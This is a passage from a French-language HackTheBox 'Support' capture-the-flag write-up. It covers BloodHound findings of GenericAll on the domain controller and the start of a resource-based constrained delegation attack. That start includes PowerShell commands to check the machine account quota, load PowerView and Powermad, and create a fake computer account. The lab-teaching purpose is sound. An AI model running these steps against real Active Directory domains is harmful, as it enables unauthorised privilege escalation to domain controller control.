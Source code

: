 Importer dans BloodHound et marquer SUPPORT@SUPPORT.HTB comme "Owned".

### Résultat de l'analyse

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-crown mr-2"></i>Privilège critique découvert
    </h4>
    <p class="text-gray-700 dark:text-gray-300 mb-2">
        Le groupe <strong>Shared Support Accounts</strong> possède <span class="text-highlight-red">GenericAll</span> sur le contrôleur de domaine DC.SUPPORT.HTB
    </p>
    <p class="text-sm text-gray-600 dark:text-gray-400">
        Cette permission permet une attaque RBCD (Resource-Based Constrained Delegation) pour obtenir un shell SYSTEM.
    </p>
</div>


## ⚙️ Phase 9 — Exploitation RBCD

### Vérifier le quota machine

```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

Résultat : 10 (n'importe quel utilisateur authentifié peut créer jusqu'à 10 machines).

### Importer PowerView

```powershell
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```

### Créer une fausse machine

```powershell
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

Vérification :

```powershell
Get-ADComputer -Identity FAKE-COMP01
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Machine FAKE-COMP01 créée avec succès !
    </p>
</div>
